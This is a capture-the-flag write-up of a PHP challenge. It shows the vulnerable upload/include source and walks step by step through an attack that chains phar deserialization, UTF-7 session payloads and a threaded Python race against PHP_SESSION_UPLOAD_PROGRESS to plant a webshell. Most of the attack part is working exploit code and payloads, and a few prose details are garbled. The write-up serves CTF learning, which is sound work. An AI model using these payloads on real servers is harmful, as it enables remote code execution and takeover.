


## writeup

The topic is PHP code analysis, as follows:

```php+HTML
<?php
error_reporting(0);
session_start();
class FileUpload {
    public function uploadFile() {
        if (!isset($_FILES['file']) || $_FILES['file']['error'] !== UPLOAD_ERR_OK) {
            exit('not file or upload error!');
        }
        $file = $_FILES['file'];
        $fileName = basename($file['name']);
        $fileExt = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));

        if (!in_array($fileExt, ['jpg', 'png', 'gif'])) {
            exit('only jpg, png, gif files are allowed!');
        }

        $file_content = file_get_contents($file['tmp_name']);

        if (strpos($file_content, '<?') !== false) {
            exit('file content not allowed!');
        }

        $destination = "./uploads/". $fileName;
        if (move_uploaded_file($file['tmp_name'], $destination)) {
            exit('file upload success,address is '.$destination);
        }

        exit("upload failed!");
    }
}

class FileView {
    public function includeFile($path) {
        if (preg_match('/php:\/\/|home|var|proc|root|\.\.|flag|access/i',$path)){
            exit("Don't read system file!");
        }
        include $path;
    }
}

class UserLogin {
    public $name;
    public $role;
    public function __wakeup() {
        if ($this->role === 'super_admin') {
            echo "Welcome Admin：" . $this->name;
        }else{
            echo "Welcome User：" . $this->name;
        }
    }
}

class SystemTool {
    public $name;
    public $arg;
    public function __toString(){
        ($this->name)($this->arg);
        return "tools";
    }
}

// 数据处理
if (isset($_GET['data'])) {
    $data = $_GET['data'];
    if (preg_match("/zip|phar|uploads/i",$data)){
        exit("Don't use dangerous protocol!");
    }
    file_put_contents($data, file_get_contents($data));
    echo "Data processed successfully!";
    exit;
}
?>

<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Data Processing System</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Consolas', 'Monaco', 'Courier New', monospace;
            background: #0a0e27;
            min-height: 100vh;
            display: flex;
            justify-content: center;
            align-items: center;
            padding: 20px;
            overflow: hidden;
        }

        body::before {
            content: '';
            position: fixed;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            background:
                    radial-gradient(circle at 20% 50%, rgba(0, 255, 255, 0.1) 0%, transparent 50%),
                    radial-gradient(circle at 80% 80%, rgba(138, 43, 226, 0.1) 0%, transparent 50%),
                    radial-gradient(circle at 40% 20%, rgba(0, 150, 255, 0.1) 0%, transparent 50%);
            z-index: 0;
            animation: gradientShift 15s ease infinite;
        }

        @keyframes gradientShift {
            0%, 100% { opacity: 1; }
            50% { opacity: 0.8; }
        }

        .container {
            background: rgba(15, 23, 42, 0.8);
            border-radius: 20px;
            box-shadow:
                    0 0 60px rgba(0, 255, 255, 0.1),
                    0 0 100px rgba(138, 43, 226, 0.1),
                    inset 0 0 60px rgba(0, 255, 255, 0.03);
            max-width: 1000px;
            width: 100%;
            overflow: hidden;
            border: 1px solid rgba(0, 255, 255, 0.2);
            position: relative;
            z-index: 1;
            backdrop-filter: blur(10px);
        }

        .container::before {
            content: '';
            position: absolute;
            top: 0;
            left: -100%;
            width: 100%;
            height: 2px;
            background: linear-gradient(90deg, transparent, #00ffff, transparent);
            animation: scan 3s linear infinite;
        }

        @keyframes scan {
            0% { left: -100%; }
            100% { left: 100%; }
        }

        .header {
            background: linear-gradient(135deg, rgba(0, 100, 150, 0.3) 0%, rgba(50, 20, 80, 0.3) 100%);
            color: #00ffff;
            padding: 40px;
            text-align: center;
            position: relative;
            border-bottom: 2px solid rgba(0, 255, 255, 0.3);
        }

        .header h1 {
            font-size: 2.8em;
            margin-bottom: 10px;
            text-shadow:
                    0 0 10px rgba(0, 255, 255, 0.8),
                    0 0 20px rgba(0, 255, 255, 0.5),
                    0 0 30px rgba(0, 255, 255, 0.3);
            letter-spacing: 3px;
            font-weight: 300;
        }

        .header p {
            font-size: 1em;
            opacity: 0.7;
            letter-spacing: 2px;
            color: #8b9dc3;
        }

        .content {
            padding: 40px;
        }

        .tabs {
            display: flex;
            gap: 20px;
            margin-bottom: 40px;
            justify-content: center;
        }

        .tab {
            padding: 15px 40px;
            background: rgba(0, 255, 255, 0.05);
            border: 1px solid rgba(0, 255, 255, 0.3);
            cursor: pointer;
            font-size: 1em;
            color: #8b9dc3;
            transition: all 0.4s;
            border-radius: 8px;
            position: relative;
            overflow: hidden;
        }

        .tab::before {
            content: '';
            position: absolute;
            top: 50%;
            left: 50%;
            width: 0;
            height: 0;
            background: rgba(0, 255, 255, 0.2);
            border-radius: 50%;
            transform: translate(-50%, -50%);
            transition: width 0.6s, height 0.6s;
        }

        .tab:hover::before {
            width: 300px;
            height: 300px;
        }

        .tab:hover {
            color: #00ffff;
            border-color: #00ffff;
            box-shadow: 0 0 20px rgba(0, 255, 255, 0.3);
        }

        .tab.active {
            color: #00ffff;
            background: rgba(0, 255, 255, 0.1);
            border-color: #00ffff;
            box-shadow: 0 0 20px rgba(0, 255, 255, 0.4);
        }

        .tab span {
            position: relative;
            z-index: 1;
        }

        .tab-content {
            display: none;
        }

        .tab-content.active {
            display: block;
            animation: fadeInUp 0.6s ease;
        }

        @keyframes fadeInUp {
            from {
                opacity: 0;
                transform: translateY(20px);
            }
            to {
                opacity: 1;
                transform: translateY(0);
            }
        }

        .form-group {
            margin-bottom: 30px;
        }

        label {
            display: block;
            margin-bottom: 12px;
            color: #00ffff;
            font-weight: 400;
            font-size: 1.1em;
            letter-spacing: 1px;
            text-shadow: 0 0 10px rgba(0, 255, 255, 0.5);
        }

        input[type="text"] {
            width: 100%;
            padding: 15px 20px;
            border: 1px solid rgba(0, 255, 255, 0.3);
            border-radius: 8px;
            font-size: 1em;
            transition: all 0.3s;
            background: rgba(0, 20, 40, 0.5);
            color: #00ffff;
            font-family: 'Consolas', monospace;
        }

        input[type="text"]::placeholder {
            color: rgba(139, 157, 195, 0.5);
        }

        input[type="text"]:focus {
            outline: none;
            border-color: #00ffff;
            box-shadow:
                    0 0 20px rgba(0, 255, 255, 0.3),
                    inset 0 0 20px rgba(0, 255, 255, 0.1);
            background: rgba(0, 30, 60, 0.6);
        }

        button {
            background: linear-gradient(135deg, rgba(0, 150, 200, 0.3) 0%, rgba(100, 50, 150, 0.3) 100%);
            color: #00ffff;
            padding: 15px 50px;
            border: 1px solid #00ffff;
            border-radius: 8px;
            font-size: 1.1em;
            cursor: pointer;
            transition: all 0.4s;
            box-shadow: 0 0 20px rgba(0, 255, 255, 0.2);
            letter-spacing: 2px;
            position: relative;
            overflow: hidden;
        }

        button::before {
            content: '';
            position: absolute;
            top: 0;
            left: -100%;
            width: 100%;
            height: 100%;
            background: linear-gradient(90deg, transparent, rgba(255, 255, 255, 0.2), transparent);
            transition: left 0.5s;
        }

        button:hover::before {
            left: 100%;
        }

        button:hover {
            transform: translateY(-2px);
            box-shadow: 0 0 40px rgba(0, 255, 255, 0.5);
            border-color: #00ffff;
        }

        button:active {
            transform: translateY(0);
        }

        .message {
            padding: 15px 20px;
            border-radius: 8px;
            margin-top: 20px;
            display: none;
            animation: slideIn 0.5s;
            border-left: 4px solid;
        }

        @keyframes slideIn {
            from {
                opacity: 0;
                transform: translateX(-20px);
            }
            to {
                opacity: 1;
                transform: translateX(0);
            }
        }

        .message.success {
            background: rgba(0, 255, 136, 0.1);
            color: #00ff88;
            border-color: #00ff88;
            box-shadow: 0 0 20px rgba(0, 255, 136, 0.2);
        }

        .message.error {
            background: rgba(255, 68, 68, 0.1);
            color: #ff4444;
            border-color: #ff4444;
            box-shadow: 0 0 20px rgba(255, 68, 68, 0.2);
        }

        .code-display {
            background: rgba(0, 0, 0, 0.5);
            color: #00ffff;
            padding: 25px;
            border-radius: 8px;
            font-family: 'Consolas', 'Monaco', monospace;
            font-size: 0.9em;
            overflow-x: auto;
            border: 1px solid rgba(0, 255, 255, 0.2);
            max-height: 600px;
            overflow-y: auto;
            line-height: 1.6;
        }

        .code-display::-webkit-scrollbar {
            width: 10px;
            height: 10px;
        }

        .code-display::-webkit-scrollbar-track {
            background: rgba(0, 0, 0, 0.3);
            border-radius: 5px;
        }

        .code-display::-webkit-scrollbar-thumb {
            background: rgba(0, 255, 255, 0.3);
            border-radius: 5px;
        }

        .code-display::-webkit-scrollbar-thumb:hover {
            background: rgba(0, 255, 255, 0.5);
        }

        .footer {
            text-align: center;
            padding: 25px;
            background: rgba(0, 0, 0, 0.3);
            color: #8b9dc3;
            font-size: 0.9em;
            border-top: 1px solid rgba(0, 255, 255, 0.2);
            letter-spacing: 1px;
        }

        .description {
            color: #8b9dc3;
            font-size: 0.9em;
            margin-top: 8px;
            line-height: 1.6;
        }

        .circuit-line {
            position: absolute;
            width: 100%;
            height: 1px;
            background: linear-gradient(90deg, transparent, rgba(0, 255, 255, 0.5), transparent);
            top: 50%;
            animation: pulse 2s ease-in-out infinite;
        }

        @keyframes pulse {
            0%, 100% { opacity: 0.3; }
            50% { opacity: 1; }
        }
    </style>
</head>
<body>
<div class="container">
    <div class="header">
        <h1>AI DATA PROCESSOR</h1>
        <p>ADVANCED NEURAL COMPUTING SYSTEM</p>
    </div>

    <div class="content">
        <div class="tabs">
            <button class="tab active" onclick="switchTab(0)"><span>DATA PROCESSING</span></button>
            <button class="tab" onclick="switchTab(1)"><span>SOURCE CODE</span></button>
        </div>

        <!-- 数据处理 -->
        <div class="tab-content active">
            <form id="dataForm">
                <div class="form-group">
                    <label>DATA INPUT URL</label>
                    <input type="text" name="data" id="dataInput" placeholder="Enter data source URL...">
                    <div class="description">
                        System will process the data from specified URL
                    </div>
                </div>
                <button type="submit"><span>EXECUTE</span></button>
            </form>
            <div class="message" id="dataMessage"></div>
        </div>

        <!-- 源代码 -->
        <div class="tab-content">
            <div class="code-display">
                <?php
                $source = highlight_file(__FILE__, true);
                echo $source;
                ?>
            </div>
        </div>
    </div>

    <div class="footer">
        NEURAL COMPUTING SYSTEM v2.0 &copy; 2025
    </div>
</div>

<script>
    function switchTab(index) {
        const tabs = document.querySelectorAll('.tab');
        const contents = document.querySelectorAll('.tab-content');

        tabs.forEach((tab, i) => {
            if (i === index) {
                tab.classList.add('active');
                contents[i].classList.add('active');
            } else {
                tab.classList.remove('active');
                contents[i].classList.remove('active');
            }
        });
    }

    document.getElementById('dataForm').addEventListener('submit', async function(e) {
        e.preventDefault();
        const formData = new FormData(this);
        const data = formData.get('data');

        if (!data) {
            showMessage('dataMessage', 'ERROR: DATA URL REQUIRED', 'error');
            return;
        }

        try {
            const response = await fetch(`?data=${encodeURIComponent(data)}`);
            const result = await response.text();

            if (result.includes('No hack')) {
                showMessage('dataMessage', result.toUpperCase(), 'error');
            } else {
                showMessage('dataMessage', result.toUpperCase(), 'success');
            }
        } catch (error) {
            showMessage('dataMessage', 'ERROR: ' + error.message.toUpperCase(), 'error');
        }
    });

    function showMessage(elementId, message, type) {
        const messageEl = document.getElementById(elementId);
        messageEl.textContent = message;
        messageEl.className = 'message ' + type;
        messageEl.style.display = 'block';

        setTimeout(() => {
            messageEl.style.display = 'none';
        }, 5000);
    }

    // 添加输入焦点效果
    const input = document.getElementById('dataInput');
    input.addEventListener('focus', function() {
        this.style.transform = 'scale(1.02)';
    });
    input.addEventListener('blur', function() {
        this.style.transform = 'scale(1)';
    });
</script>
</body>
</html>

```

The controllable points are:

```php
$data = $_GET['data'];
if (preg_match("/upload|phar|zip|/i",$data)){
    exit("No hack!");
}
file_put_contents($data,file_get_contents($data));
```

The available functionalities are file upload and file inclusion. We need to determine if a file needs to be uploaded before including it, but this requires calling a class. We're considering using session-based methods because of `session_start()`.

However, the default session can be deserialized as `|O...`, so we need to construct it. We're considering using `php://filter` for conversion, but we need to consider the type of file being uploaded. Here, we think of using phar for RCE (Real-Time Execution Code) without PHP code.

```php
<?php
$phar = new Phar('exploit.phar');
$phar -> startBuffering();
$stub = <<< 'STUB'
<?php
file_put_contents('/var/www/html/1.php',base64_decode("PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+"));
__HALT_COMPILER();
?>
STUB;

$phar -> setStub($stub);
$phar -> addFromString('test.txt', 'test');
$phar -> stopBuffering();
?>
```

Execution will generate a `phar` file because the following restrictions need to be bypassed:

```
  if (strpos($file_content, '<?') !== false) {
      exit('file content not allowed!');
  }
```

After generating the file `gzip exploit.phar exploit.phar.gz`, analyzing the code reveals a file upload and a file inclusion mechanism. The general approach is to first upload a file and then include it using `include`. Due to the restriction on `<?`, we consider using `gzip` to bypass this restriction.

The deserialized payload is constructed as follows:

```php
<?php

class FileUpload {
}

class FileView {
}

class UserLogin {
    public $name;
    public $role;
}

class SystemTool {
    public $name;
    public $arg;
}
$f = new FileUpload();

$t = new SystemTool();
$t -> name = [$f,"upload"];
$u = new UserLogin();
$u->role = "super_admin";
$u->name = $t;

$payload =  serialize($u);
$a1 = iconv('utf-8', 'utf-7', '1|'.$payload);
echo iconv('utf-8', 'utf-7', $a1);


?>
```

Because `file_get_contents` and `file_put_contents` handle protocols separately, they need to be converted twice:

```python
import io
import sys
import requests
import threading

sessid = 'test1'


def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://192.168.148.3/index.php?data=php://filter/convert.iconv.utf-7.utf-8/resource=/tmp/sess_test1',
            data={
                "PHP_SESSION_UPLOAD_PROGRESS": "1+-AHw-O:9:+-ACI-UserLogin+-ACI:2:+-AHs-s:4:+-ACI-name+-ACIAOw-O:10:+-ACI-SystemTool+-ACI:2:+-AHs-s:4:+-ACI-name+-ACIAOw-a:2:+-AHs-i:0+-ADs-O:10:+-ACI-FileUpload+-ACI:0:+-AHsAfQ-i:1+-ADs-s:6:+-ACI-upload+-ACIAOwB9-s:3:+-ACI-arg+-ACIAOw-N+-ADsAfQ-s:4:+-ACI-role+-ACIAOw-s:11:+-ACI-super+-AF8-admin+-ACIAOwB9-"},
            files={"file": ('q.txt', f)},
            cookies={'PHPSESSID': sessid}
        )


def exploit():
    r = requests.session().post(
        url='http://192.168.148.3/index.php',
        files={"file": ('exp.phar.jpg', open("exp.phar.jpg", 'rb').read())},
        cookies={'PHPSESSID': sessid}
    )
    print(r.text)

while True:
    with requests.session() as session:
        t1 = threading.Thread(target=POST, args=(session,))
        t2 = threading.Thread(target=exploit, args=())
        t1.daemon = True
        t1.start()
        t2.daemon = True
        t2.start()
```



After the file upload is successful, we need to consider uploading the file. Based on `phar` deserialization, only the name containing `"phar"` is needed. We can then exploit this by including the file.

```php
<?php

class FileUpload {
}

class FileView {
}

class UserLogin {
    public $name;
    public $role;
}

class SystemTool {
    public $name;
    public $arg;
}

$f = new FileView();

$t = new SystemTool();
$t -> name = [$f,"includeFile"];
$t-> arg = "./uploads/exp.phar.jpg";
$u = new UserLogin();
$u->role = "super_admin";
$u->name = $t;

$payload =  serialize($u);
$a1 = iconv('utf-8', 'utf-7', '1|'.$payload);
echo iconv('utf-8', 'utf-7', $a1);

?>
```

Construct exp:

```python
import io
import sys
import requests
import threading

sessid = 'test'


def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://192.168.20.210:27293/index.php?data=php://filter/convert.iconv.utf-7.utf-8/resource=/tmp/sess_test',
            data={
                "PHP_SESSION_UPLOAD_PROGRESS": "1+-AHw-O:9:+-ACI-UserLogin+-ACI:2:+-AHs-s:4:+-ACI-name+-ACIAOw-O:10:+-ACI-SystemTool+-ACI:2:+-AHs-s:4:+-ACI-name+-ACIAOw-a:2:+-AHs-i:0+-ADs-O:8:+-ACI-FileView+-ACI:0:+-AHsAfQ-i:1+-ADs-s:11:+-ACI-includeFile+-ACIAOwB9-s:3:+-ACI-arg+-ACIAOw-s:34:+-ACI-/var/www/html/uploads/exp.phar.jpg+-ACIAOwB9-s:4:+-ACI-role+-ACIAOw-s:11:+-ACI-super+-AF8-admin+-ACIAOwB9-"},
            files={"file": ('q.txt', f)},
            cookies={'PHPSESSID': sessid}
        )


def exploit():
    res = session.post(
        url='http://192.168.20.210:27293/1.php',
        cookies={'PHPSESSID': sessid}
    )
    if res.status_code == 200:
        exit("WebShell write success！")

while True:
    with requests.session() as session:
        t1 = threading.Thread(target=POST, args=(session,))
        t2 = threading.Thread(target=exploit, args=())
        t1.daemon = True
        t1.start()
        t2.daemon = True
        t2.start()

```

Successfully wrote a `WebShell` and retrieved the `flag`:



